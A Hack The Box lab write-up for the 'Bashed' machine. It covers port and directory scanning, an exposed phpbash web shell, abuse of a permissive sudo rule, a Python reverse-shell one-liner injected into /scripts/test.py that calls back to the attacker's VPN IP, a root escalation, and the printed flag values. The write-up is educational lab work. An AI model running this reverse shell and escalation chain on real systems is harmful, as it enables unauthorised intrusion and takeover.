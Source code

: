 

IP = 10.10.10.68

we right away see a website


```
sudo nmap -sV 10.10.10.68                                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 15:47 CEST
Nmap scan report for 10.10.10.68
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/PathBANGER.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       23w     1322c http://10.10.10.68/images/favicon.png
200      GET      154l      394w     7477c http://10.10.10.68/single.html
200      GET      161l      397w     7743c http://10.10.10.68/index.html
200      GET        8l       35w     2447c http://10.10.10.68/images/logo.png
200      GET       32l      116w     1222c http://10.10.10.68/css/carouFredSel.css
200      GET       12l       63w     1392c http://10.10.10.68/js/jquery.mousewheel.min.js
200      GET        8l       73w     2429c http://10.10.10.68/js/html5.js
200      GET       13l      113w     4313c http://10.10.10.68/js/jquery.touchSwipe.min.js
200      GET       15l      672w    36079c http://10.10.10.68/js/jquery.carouFredSel-6.0.0-packed.js
200      GET      118l      550w    60153c http://10.10.10.68/js/jquery.nicescroll.min.js
200      GET        1l        1w       14c http://10.10.10.68/uploads/
200      GET       58l      254w     1783c http://10.10.10.68/js/jquery.easing.1.3.js
200      GET      117l      685w     4689c http://10.10.10.68/css/sm-clean.css
200      GET       96l      166w     1661c http://10.10.10.68/css/clear.css
200      GET      680l     1154w    10723c http://10.10.10.68/css/common.css
200      GET      262l      560w     8904c http://10.10.10.68/js/main.js
200      GET      893l     3885w    26643c http://10.10.10.68/js/imagesloaded.pkgd.js
200      GET        4l       66w    29063c http://10.10.10.68/css/font-awesome.min.css
200      GET        3l      206w    24476c http://10.10.10.68/js/jquery.smartmenus.min.js
200      GET     1412l     2291w    24164c http://10.10.10.68/style.css
200      GET        6l       20w     1537c http://10.10.10.68/images/arrow.png
200      GET       19l       88w     1564c http://10.10.10.68/images/
200      GET       38l       76w      909c http://10.10.10.68/js/custom_google_map_style.js
200      GET      154l     1009w    73725c http://10.10.10.68/images/ajax-document-loader.gif
200      GET        6l     1435w    97184c http://10.10.10.68/js/jquery.js
200      GET      161l      397w     7743c http://10.10.10.68/
200      GET        0l        0w        0c http://10.10.10.68/php/sendMail.php
200      GET       16l       59w      939c http://10.10.10.68/php/
200      GET       20l       96w     1758c http://10.10.10.68/css/
200      GET      216l      489w     8151c http://10.10.10.68/dev/phpbash.php
200      GET        1l      255w     4559c http://10.10.10.68/dev/phpbash.min

```

as we can see there we have http://10.10.10.68/dev/phpbash.php

We are told that the server is build on [phpbash]([https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash))


Inside phpbash:

```
whoami      # www-data
id           # uid=33(www-data)
ls /home     # arrexel, scriptmanager
sudo -l
```

We discover a key privilege escalation path:

```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means www-data can run any command as `scriptmanager`, using `sudo`.

Although we cannot use `su scriptmanager` (no password), we can execute commands as `scriptmanager` with:

```
sudo -u scriptmanager <command>
```

We check `/scripts`:

```
sudo -u scriptmanager ls -la /scripts
```

We find a Python file named `test.py` owned by `scriptmanager`, which we can modify:

```
`echo 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])' | sudo -u scriptmanager tee /scripts/test.py > /dev/null`
```
Note: `10.10.14.11` is the VPN IP of the attacking machine

### Listener:

```
nc -lvnp 4444
```

### Trigger the reverse shell:

```
sudo -u scriptmanager python /scripts/test.py
```

This gives us a reverse shell as `scriptmanager` on our local machine.

Once inside as `scriptmanager`, we check:

```
sudo -l
```

If allowed to run everything:

```
sudo /bin/bash
```

Now we are root:

```
whoami    # root
cat /root/root.txt
07e7b90a784d3f7d0c4ee08c0be62774
cat /home/arrexel/user.txt
817fffdd4cc7a8865c6f07e304a4150d
```


sum
In the _Bashed_ Hack The Box machine, initial access was obtained through an exposed `phpbash.php` web shell running as the low-privileged `www-data` user. During enumeration, it was discovered that `www-data` had misconfigured `sudo` permissions, allowing it to run any command as the `scriptmanager` user without requiring a password. Although direct switching to `scriptmanager` wasn’t possible, we leveraged `sudo -u scriptmanager` to inject a Python reverse shell into a writable script file (`/scripts/test.py`). By triggering this file, we received a reverse shell connection back to our local Mac, this time as `scriptmanager`. From there, a simple privilege escalation was achieved by running `/bin/bash` as root using `sudo`, completing the compromise and granting access to both the user and root flags. This box serves as a lesson in the dangers of exposed dev tools, overly permissive `sudo` rules, and unmonitored script execution paths.